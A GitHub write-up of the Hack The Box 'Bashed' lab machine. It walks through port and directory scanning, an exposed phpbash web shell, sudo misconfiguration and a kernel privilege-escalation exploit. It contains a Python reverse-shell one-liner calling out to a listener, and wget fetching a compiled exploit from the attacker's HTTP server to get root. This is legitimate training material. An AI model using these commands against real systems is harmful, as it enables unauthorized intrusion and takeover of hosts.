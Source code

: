 # htb-bashed
This is my [Hack the box](https://www.hackthebox.eu/)'s Bashed machine write-up.

## Machine
OS: Linux

IP: 10.10.10.68

Difficulty: Easy

## Initial enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN bashed.nmap $BASHED`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:/home/kali# nmap -sC -sV -Pn -oN bashed.nmap $BASHED
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 20:01 EDT
Nmap scan report for 10.10.10.68 (10.10.10.68)
Host is up (0.23s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

There's a web server running on port 80. Get paths using gobuster:
```
root@kali:/home/kali# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt --url http://10.10.10.68 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/26 20:26:58 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2020/08/26 20:30:57 Finished
===============================================================
```

The page on port 80 advertises a web shell: [phpbash](https://github.com/Arrexel/phpbash). It mentions the tool was built on this server which makes us think it could be accessible. `/dev/phpbash.php` is its location.

Get some situational awareness information using the shell:
```
www-data@bashed:/var/www/html/dev# uname -a
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

www-data@bashed:/var/www/html/dev# whoami
www-data

www-data@bashed:/var/www/html/dev# env
OLDPWD=/var/www/html/dev
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
APACHE_LOG_DIR=/var/log/apache2
PWD=/var/www/html/dev


www-data@bashed:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

It is possible already to grab the user flag from `home/arrexel`: `cat /home/arrexel/user.txt`

Check that Python is installed by executing `python --version`. Let's trigger a reverse shell using it.

First, let's set up the listener on the attacker machine:
```bash
sudo nc -lvp 8888 
```

Then, with a little help from the pentestmonkey's [reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), hit the listener from the phpbash web interface (replace IP and port by the listener's):
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

It pops a shell on the listener!

The kernel version can be obtained by executing `uname -a` is 4.4.0-62-generic.

Let's check on searchsploit if that version of Linux kernel is vulnerable:
```
kali@kali:~/deleteme$ searchsploit 4.4.0
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Comodo Backup 4.4.0.0 - Null Pointer Dereference Privilege Escalation              | windows/local/35905.c
eTouch SamePage 4.4.0.0.239 - Multiple Vulnerabilities                             | php/webapps/36089.txt
Foxit MobilePDF 4.4.0 iOS - Multiple Vulnerabilities                               | ios/webapps/35775.txt
Helpdesk Pilot Knowledge Base 4.4.0 - SQL Injection                                | php/webapps/10788.txt
Linux 4.4.0 < 4.4.0-53 - 'AF_PACKET chocobo_root' Local Privilege Escalation (Meta | linux/local/44696.rb
Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privil | linux_x86-64/local/40871.c
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free (PoC)                               | linux/dos/41457.c
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation                | linux/local/41458.c
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter target_offset Out-of-Bounds P | linux_x86-64/local/40049.c
Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Co | linux/local/47170.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation             | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privi | linux/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escala | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Lo | linux/local/47169.c
Photo Manager Pro 4.4.0 iOS - Code Execution                                       | ios/webapps/36798.txt
Photo Manager Pro 4.4.0 iOS - Local File Inclusion                                 | ios/webapps/36796.txt
PHP 4.4.0 - 'mysql_connect function' Local Buffer Overflow                         | windows/local/1406.php
Vembu Storegrid Web Interface 4.4.0 - Multiple Vulnerabilities                     | php/webapps/46549.txt
----------------------------------------------------------------------------------- ---------------------------------
```

For this example this one will be used: `Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation`. Compile it on Kali (attacker) and expose it through an HTTP server for it to be available to the victim:
```
$ locate linux/local/44298.c
/usr/share/exploitdb/exploits/linux/local/44298.c
$ gcc -o privesc /usr/share/exploitdb/exploits/linux/local/44298.c
$ ls
privesc
$ python -m SimpleHTTPServer
```

And then, from the shell on the victim, get it and execute it:
```
$ sudo -l 
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager /bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
scriptmanager@bashed:/var/www/html/uploads$ cd  
cd
scriptmanager@bashed:~$ pwd
pwd
/home/scriptmanager
scriptmanager@bashed:~$ wget 10.10.14.13:8000/privesc
wget 10.10.14.13:8000/privesc
--2020-09-04 21:52:11--  http://10.10.14.13:8000/privesc
Connecting to 10.10.14.13:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 17880 (17K) [application/octet-stream]
Saving to: 'privesc'

privesc             100%[===================>]  17.46K  28.8KB/s    in 0.6s    

2020-09-04 21:52:13 (28.8 KB/s) - 'privesc' saved [17880/17880]

scriptmanager@bashed:~$ chmod +x privesc
chmod +x privesc
scriptmanager@bashed:~$ ./privesc
./privesc
task_struct = ffff88003ab93800
uidptr = ffff880038719204
spawning root shell
root@bashed:~# whoami
whoami
root
root@bashed:~# 
```

Note the execution of the exploit was done as `scriptmanager` and not as `www-data` (leveraging the fact that `www-data` has permissions to execute anything as `scriptmanager`). This was simply because the same process didn't work when executing it as `www-data`.
